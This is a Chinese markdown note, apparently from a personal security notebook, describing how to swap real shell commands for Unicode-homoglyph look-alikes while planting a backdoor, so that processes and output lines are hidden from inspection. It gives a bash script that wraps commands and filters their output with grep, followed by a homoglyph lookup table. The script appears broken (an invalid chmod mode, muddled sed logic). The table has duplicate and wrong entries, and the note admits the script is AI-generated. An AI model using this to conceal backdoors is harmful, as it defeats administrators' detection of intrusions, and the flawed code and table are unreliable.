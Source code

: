 # Shell同形异义字取代命令

在做安全植入后门的时候经常遇到Shell当中经常有替换命令并且不让进程查到的需求，使用下面的同形异义字去替换真实命令就查不到了，给输出的内容进行删除。

可以躲过检查。

## 脚本

```bash
#!/bin/sh

# 设置特殊字符
s=$(echo -e "\x{455}")
n=$(echo -e "\x{578}")

# 备份原始命令到变量$o中
o="$1"
shift

# 修改命令内容并写入文件$o
echo "#!/bin/sh" > "$o"
echo "$o" | sed -e "s/\([ltp]\)s/\1$s/g" -e "s/fin/fi$n/g" >> "$o"
echo "\$* | grep -vE \"[$s-$n]|grep|177\"" >> "$o"

# 设置文件权限
chmod 493 "$o"
```

## 字符相似度测试脚本

右键下载 [shell-character-check.sh](./Shell同形异义字取代命令.assets/shell-character-check.sh)

> 检验网站 [https://www.rapidtables.org/zh-CN/code/text/unicode-characters.html](https://www.rapidtables.org/zh-CN/code/text/unicode-characters.html)





备注：本脚本由AI生成，或许可能有错误，仅提供参考，核对后使用。



![image-20240625160021584](./Shell同形异义字取代命令.assets/image-20240625160021584.png)





## 同形异义字代码表

下面是从小写字母 'a' 到 'z' 的列表，使用Markdown格式排列

| 字符 | 同形异义字 | Unicode 编码 | Unicode字符类 |
| ---- | ---------- | ------------ | ------------- |
| a    | а          | \u0430       | 西里尔字母    |
| a    | ɑ          | \u0251       | 拉丁字母      |
| b    | Ь          | \u042c       | 西里尔字母    |
| b    | Ƅ          | \u0184       | 拉丁字母      |
| c    | ϲ          | \u03f2       | 希腊字母      |
| c    | с          | \u0441       | 西里尔字母    |
| d    | ԁ          | \u0501       | 西里尔字母    |
| d    | đ          | \u0111       | 拉丁字母      |
| e    | е          | \u0435       | 西里尔字母    |
| e    | é          | \u00e9       | 拉丁字母      |
| f    | ſ          | \u017f       | 拉丁字母      |
| f    | ƒ          | \u0192       | 拉丁字母      |
| g    | ց          | \u0581       | 亚美尼亚字母  |
| g    | ɡ          | \u0261       | 拉丁字母      |
| h    | һ          | \u04bb       | 西里尔字母    |
| h    | ħ          | \u0127       | 拉丁字母      |
| i    | і          | \u0456       | 西里尔字母    |
| i    | í          | \u00ed       | 拉丁字母      |
| j    | ј          | \u0458       | 西里尔字母    |
| j    | ʝ          | \u029d       | 拉丁字母      |
| k    | κ          | \u03ba       | 希腊字母      |
| k    | ĸ          | \u0138       | 拉丁字母      |
| l    | ℓ          | \u2113       | 拉丁字母      |
| l    | ɭ          | \u026d       | 拉丁字母      |
| m    | м          | \u043c       | 西里尔字母    |
| m    | ɱ          | \u0271       | 拉丁字母      |
| n    | ո          | \u0578       | 亚美尼亚字母  |
| n    | ŋ          | \u014b       | 拉丁字母      |
| o    | о          | \u043e       | 西里尔字母    |
| o    | ο          | \u03bf       | 希腊字母      |
| p    | р          | \u0440       | 西里尔字母    |
| p    | ρ          | \u03c1       | 希腊字母      |
| q    | ԛ          | \u051b       | 西里尔字母    |
| q    | ʠ          | \u02a0       | 拉丁字母      |
| r    | г          | \u0433       | 西里尔字母    |
| r    | ɾ          | \u027e       | 拉丁字母      |
| s    | ѕ          | \u0455       | 西里尔字母    |
| s    | ѕ          | \u0455       | 西里尔字母    |
| t    | т          | \u0442       | 西里尔字母    |
| t    | τ          | \u03c4       | 希腊字母      |
| u    | υ          | \u03c5       | 希腊字母      |
| u    | μ          | \u03bc       | 希腊字母      |
| v    | ν          | \u03bd       | 希腊字母      |
| v    | ν          | \u03bd       | 希腊字母      |
| w    | ѡ          | \u0461       | 西里尔字母    |
| w    | ŵ          | \u0175       | 拉丁字母      |
| x    | х          | \u0445       | 西里尔字母    |
| x    | χ          | \u03c7       | 希腊字母      |
| y    | у          | \u0443       | 西里尔字母    |
| y    | у          | \u0443       | 西里尔字母    |
| z    | Հ          | \u0530       | 亚美尼亚字母  |
| z    | ʑ          | \u0291       | 拉丁字母      |

